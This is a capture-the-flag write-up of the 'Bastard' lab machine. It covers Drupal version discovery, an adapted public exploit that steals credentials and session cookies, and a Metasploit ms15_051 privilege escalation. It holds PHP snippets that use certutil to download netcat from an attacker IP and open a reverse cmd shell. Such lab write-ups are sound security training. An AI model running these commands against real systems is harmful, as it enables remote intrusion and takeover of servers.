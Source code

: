 # Bastard
![image](https://github.com/partyh4t/Write-ups/assets/114421293/3061d92f-1f6d-4189-a9e4-e510b14e004c)


## 0) Machine Overview
- We're first met with a web application running Drupal that leaks a useful directory through the robots.txt file.
- The file contains a version# for the current Drupal installation that is running on the web server.
- We're then able to leverage that version number to exploit a CVE to gain credentials and eventually RCE.
- Finally, once the machine was compromised, we exploited ms15_051 to gain Administrative Privileges.

## 1) Scans
![image](https://github.com/partyh4t/Write-ups/assets/114421293/900fd3f7-bc43-414b-a7d1-1aa87ec1381f)

## 2) Web Enumeration
Heading to the webpage, we're met with Drupal
![image](https://github.com/partyh4t/Write-ups/assets/114421293/df3dfa47-769b-401c-9c4e-9651018415bd)


With some testing, and checking the robots.txt, we notice:

![image](https://github.com/partyh4t/Write-ups/assets/114421293/22d60b3d-fb7e-4e66-bee5-a207dfdc103f)


As we can see, we now know the exact version number of the CMS being used.
![image](https://github.com/partyh4t/Write-ups/assets/114421293/cbecd508-9201-4196-9d28-40c0b13ae57f)

## 3) Exploitation
With some research "Drupal 7.54 exploit" we instantly are met with:
![image](https://github.com/partyh4t/Write-ups/assets/114421293/40c9887d-fbc0-418f-8cd6-7f422b59ff2f)


We used the exploit, but we had to alter some of the code:
Originally I only changed the url to the proper IP, and as we can see, the endpoint_path is set to /rest-endpoint, but the exploit doesn't work.
![image](https://github.com/partyh4t/Write-ups/assets/114421293/acb9b252-ca1b-40f5-9e2c-87d60107bcc0)


So if we try to access that endpoint ourselves, it turns out it doesnt exist for us.

![image](https://github.com/partyh4t/Write-ups/assets/114421293/735785d0-003e-4a3d-8f1c-9c81b50a0bbc)


What if we try just /rest? Because if we search up that error with drupal, we can see some stackoverflow questions that show that /rest is also a possible endpoint.

With that fixed:

![image](https://github.com/partyh4t/Write-ups/assets/114421293/39aa305d-3e55-44c1-9176-a1fbad85525b)


Now, the exploit is creating a .php file within the server, and the exploit code is retrieving credentials:
![image](https://github.com/partyh4t/Write-ups/assets/114421293/0103ff84-1d65-4b26-aa10-de9d330cb625)


Also the session information:
![image](https://github.com/partyh4t/Write-ups/assets/114421293/38e59117-7a55-4f2c-bdb2-fbd88c95cf6a)


So we can either log into the admin dashboard and investigate, or we can also change the data to maybe give us a shell of some sort, it'd have to be in php though.

Lets first try to add some of those cookies into our browser:
![image](https://github.com/partyh4t/Write-ups/assets/114421293/6ea28526-0a5b-4f0a-bfcf-23d67958be05)


Here, we put the session names value into the name section, and the id into the value:
![image](https://github.com/partyh4t/Write-ups/assets/114421293/a2f6a602-467e-4020-b6ad-035a5220eb99)


I was having trouble trying to get a rev shell with the exploit code, so we'll have to do it manually.

Going to be following this:
[https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/drupal#rce](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/drupal#rce)

Note: this will only work for versions of Drupal before V8.

So, after a lot of research, and some PHP errors, I was able to use this code on the new page within the "Add-content" section:
```
<?php
$command = "certutil.exe -urlcache -f http://10.10.14.15:8080/nc64.exe nc64.exe";
$output = shell_exec($command);
echo $output;
?>
```

And then to execute it: (Turns out [shell_exec](https://stackoverflow.com/questions/11209509/using-php-to-execute-cmd-commands) is exactly what I needed in this case)
```
<?php
shell_exec('nc64.exe -e cmd 10.10.14.15 1234')
?>
```

## 4) Privilege Escalation
Now that we had access to the machine, i uploaded a meterpreter executable so i can use metasploit.

Once that was done, i ran local_exploit_suggester on the target, and was given multiple exploits that the target seemed to be vulnerable to.

I tried multiple, however the one that worked was [ms15_051](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2015/ms15-051). Using the metasploit module for it, i just had to make sure the payload was set to windows/x64/meterpreter/reverse_tcp, stressing on the x64 as without it, it wouldnt work. Also made sure the target was set to Windows x64, and the original meterpreter session was migrated to an x64 process.

Pwned.

---
